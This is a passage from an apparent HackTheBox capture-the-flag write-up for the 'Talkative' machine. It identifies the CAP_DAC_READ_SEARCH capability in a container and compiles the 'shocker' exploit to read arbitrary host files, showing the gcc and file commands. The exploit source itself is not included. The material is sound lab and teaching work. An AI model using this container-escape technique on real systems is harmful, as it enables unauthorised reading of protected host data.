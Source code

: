 By checking the capabilities, **there's a capability called `CAP_DAC_READ_SEARCH`!**

**Next, again from [HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#cap_dac_read_search), we can use an exploit called shocker to read arbitrary files on the host machine!** 

![](https://github.com/siunam321/CTF-Writeups/blob/main/HackTheBox/Talkative/images/Pasted%20image%2020230812184229.png)

**Dynamically compile the shock exploit:** 
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Talkative)-[2023.08.12|18:43:28(HKT)]
└> nano shocker.c
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Talkative)-[2023.08.12|18:43:33(HKT)]
└> gcc shocker.c -o shocker
[...]
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Talkative)-[2023.08.12|18:44:17(HKT)]
└> file shocker
shocker: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=d014a2c1e6fb7cb434e5d0d472015f17cb9a4757, for GNU/Linux 3.2.0, not stripped
```
